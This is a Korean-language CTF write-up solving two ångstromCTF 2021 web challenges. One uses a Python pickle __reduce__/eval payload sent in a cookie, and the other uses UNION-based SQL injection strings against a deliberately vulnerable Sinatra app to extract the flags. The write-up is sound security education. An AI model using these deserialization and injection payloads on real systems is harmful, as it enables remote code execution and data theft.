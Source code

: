 ## (Web) Jar [70 pts]

> Jar 문제는 Python Pickle 모듈에서 발생하는 역직렬화 RCE 취약점을 이용해 플래그를 획득하는 문제입니다.

```python
from flask import Flask, send_file, request, make_response, redirect
import random
import os

app = Flask(__name__)

import pickle
import base64

flag = os.environ.get('FLAG', 'actf{FAKE_FLAG}')

@app.route('/pickle.jpg')
def bg():
	return send_file('pickle.jpg')

@app.route('/')
def jar():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
		''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	items.append(request.form['item'])
	response = make_response(redirect('/'))
	response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
	return response

app.run(threaded=True, host="0.0.0.0")
```
소스 코드를 보면 플래그는 `flag` 변수에 들어가 있는 것을 볼 수 있습니다. 그리고 index를 보면 `contentes`라는 쿠키의 값을 가져와서 `loads()` 함수의 인자 넘겨주기 때문에 역직렬화 취약점이 발생합니다. 그러니 역직렬화 취약점을 이용햇 REC를 트리거해서 템블릿 변수로 `flag` 변수를 넘겨주면 될 거 같습니다.

```python
import pickle, base64
class exploit():
    def __reduce__(self):
            return (eval, ("{flag}", ))
print(base64.b64encode(pickle.dumps(exploit())))
# b'gANjYnVpbHRpbnMKZXZhbApxAFgGAAAAe2ZsYWd9cQGFcQJScQMu'
```
위와 같이 익스 코드를 작성해주었습니다.

![](https://github.com/wjddnjs33/image/blob/main/a%CC%8AngstromCTF%202021/Jar/1.png?raw=true)

`contentes`라는 쿠키의 값으로 위 페이로드를 넘겨주니 플래그를 얻을 수 있었습니다.

```
actf{you_got_yourself_out_of_a_pickle}
```

---
## (Web) Sea of Quills [70 pts]

> Sea of Quills 문제는 SQLite Injection 문제입니다.

```ruby
require 'sinatra'
require 'sqlite3'

set :bind, "0.0.0.0"
set :port, 4567

get '/' do
	db = SQLite3::Database.new "quills.db"
	@row = db.execute( "select * from quills" )
	

	erb :index
end

get '/quills' do
	erb :quills	

end


post '/quills' do
	db = SQLite3::Database.new "quills.db"
	cols = params[:cols]
	lim = params[:limit]
	off = params[:offset]
	
	blacklist = ["-", "/", ";", "'", "\""]
	
	blacklist.each { |word|
		if cols.include? word
			return "beep boop sqli detected!"
		end
	}

	
	if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
		return "bad, no quills for you!"
	end

	@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])

	p @row

	erb :specific
end
```
문제에서 소스 코드를 제공해주는데 루비인 것을 볼 수 있습니다. 코드를 보면 `cols`, `limit`, `offset`의 값을 가져와서 필터링 검증을 하고, 쿼리문 내에 넣은 후에 `execute()` 함수르 이용해서 쿼리르 실행하는 것을 볼 수 있습니다.

여기서 `union` 키워드를 필터링하지 않아 쿼리를 2개 이상 실행시켜줄 수 있을 거 같습니다. cols에 값을 `select`와 `from`에 사이에 넣어주는 것을 볼 수 있는데 만약 `sql from sqlite union select <column>`을 넣어준다면 SQL Injection을 할 수 있습니다.

![](https://github.com/wjddnjs33/image/blob/main/a%CC%8AngstromCTF%202021/Sea%20of%20Quills/3.png?raw=true)

요청을 보내보니 `cols`의 값으로 `url`, `desc`, `name`이 넘어가는 것을 보아 이 3개가 `quills` 테이블의 존재하는 컬럼인 거 같습니다.

![](https://github.com/wjddnjs33/image/blob/main/a%CC%8AngstromCTF%202021/Sea%20of%20Quills/1.png?raw=true)

```
limit  : 1
offset : 0
cols   : sql from sqlite_msater union select url
```
위와 같이 보내주니 메타 테이블 `sqlite_master`를 잘 참조하는 것을 볼 수 있고, 여기서 `flagtable`라는 테이블에 `flag`라는 컬럼이 존재하는 것을 알 수 있었습니다.

![](https://github.com/wjddnjs33/image/blob/main/a%CC%8AngstromCTF%202021/Sea%20of%20Quills/2.png?raw=true)

```
limit  : 1
offset : 0
cols   : flag from flagtable union select url
```
마지막을 위와 같이 `flagtable` 테이블을 참조하니 플래그가 나오는 것을 볼 수 있었습니다.

```
actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}
```

---
